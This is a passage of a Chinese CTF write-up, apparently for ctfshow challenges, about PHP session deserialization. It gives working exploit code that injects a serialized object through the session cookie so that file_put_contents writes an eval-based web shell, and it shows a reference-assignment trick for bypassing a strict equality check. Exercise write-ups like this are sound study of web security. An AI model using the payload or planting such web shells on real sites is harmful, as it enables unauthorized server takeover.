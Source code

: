 - 在inc.php中，用php处理器读，和前面不一样，开启了session_start()，会反序列化数据

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669866819050-789983ac-4da0-40c7-bbfb-b1f05052d9e7.png)

- 且这里可以构造User，用file_put_contents去上传🐎

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669866836718-930b9f6d-ddd5-462e-a883-47a43f235c4a.png)



**综上所述：我在index.php中构造一个带 |  的序列化数据，用Cooike传给session，在访问check.php页面时，由于它包含了inc.php，inc.php中用php处理器读取数据，并session_start()反序列化数据，将index.php中构造的数据注入到file_put_contents函数中。**

```php
<?php
class User{
    public $username;
    public $password;
    public $status;

}
$a = new User("1.php",'<?php eval($_POST[1]);phpinfo();?>');
echo base64_encode("|".serialize($a));
?>
```

- 这里上传马由于没有回显，不知道是否成功，因此加一个Phpinfo。

### 引用传值绕过==

ctmd

- 我想到赋值，但是没想到引用

#### 引用赋值的序列化

```php
<?php
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = &$this->token;
    }
    public function login(){
        return $this->token===$this->password;
    }
}
$a = new ctfshowAdmin('123','123');
echo serialize($a);
?>
```

可以看到，password的类型为Resource，资源类型
